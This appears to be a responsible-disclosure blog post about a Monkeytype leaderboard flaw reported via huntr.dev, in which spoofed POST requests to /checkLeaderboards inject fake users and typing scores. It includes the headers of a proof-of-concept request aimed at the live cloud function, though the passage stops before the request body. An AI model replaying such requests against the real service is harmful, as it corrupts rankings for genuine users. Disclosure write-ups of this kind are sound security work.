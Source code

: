 ![](/assets/img/posts/2021-09-01-MONKEYTYPE/inject_scores.png)    
*Shown above, the leaderboard is spoofed using a crafted request seen here being sent in BurpSuite*  


**Disclosure Method**: For the first time, I submitted this vulnerability through [huntr.dev](https://huntr.dev/bounties/1-other-Miodec/monkeytype/), a bug bounty platform that rewards developers and bug hunters for traiged vulnerabilities in open-source software. 

**Vulnerability**:  Users can bypass leaderboard controls and inject any object they want into the leaderboard by spoofing post requests to /checkLeaderboards. Malicious users can send specially crafted post requests and inject any user they want to the top of the leaderboard with any value words per minuet they want. Server does invalidate requests with cross-site scripting (XSS) payloads, therefore I believe this is not vulnerable to XSS.

**Proof of Concept**:  The following request will overwrite the leaderboard, injecting the user pwnville_foo into position 9 with a faked wpm of 200.  

```yaml
POST /checkLeaderboards HTTP/2
Host: us-central1-monkey-type.cloudfunctions.net
Content-Length: 750
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Authorization: Bearer [redacted]
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://monkeytype.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://monkeytype.com/
Accept-Encoding: gzip, deflate
```